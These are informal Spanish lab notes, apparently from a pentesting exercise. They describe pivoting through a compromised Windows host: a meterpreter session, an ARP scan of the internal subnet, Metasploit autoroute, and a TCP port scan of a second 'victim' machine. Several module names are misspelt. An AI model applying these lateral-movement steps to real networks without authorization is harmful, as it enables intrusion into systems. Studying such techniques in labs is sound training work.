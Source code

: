 Kali 192.168.1.20
Windows: 192.168.1.40
			10.10.10.23
Maquina Linux: 10.10.10.30


A traves de metasploit entramos en windows y conseguimos meterpreter
ipconfig

listamos las distintas interfaces de red de la maquina


cuando encontramos la ip de la maquina enotra red, es la maquina es donde se tiene qque hacer pivoting

actualizamos el mapa de red para que sea correcto

despues hacemos lo siguiente
metasploit
use windows/gather/arp_scanner  #scanneador de red en windows con metasploit

swho option
session Id
rhost es rango de la ip de la nueva interfaz de red 
rhost : 10.10.10.4/24

nos muestra un listado de maquinas en este rango de Ips
ahora hay que enrutar el trafico de la maquina windows a la otra maquina que hemos encontrado
metasploit usamos autorute
use multi/manage/autorute

show options
session Id 

run


//en este paso tenemos la IP 


escaneo de puertos de la maquina victima

metasploit use scanner/portsscan/tcp
show options
set rhost ip maquina victima
run
y listado de puertos abiertos

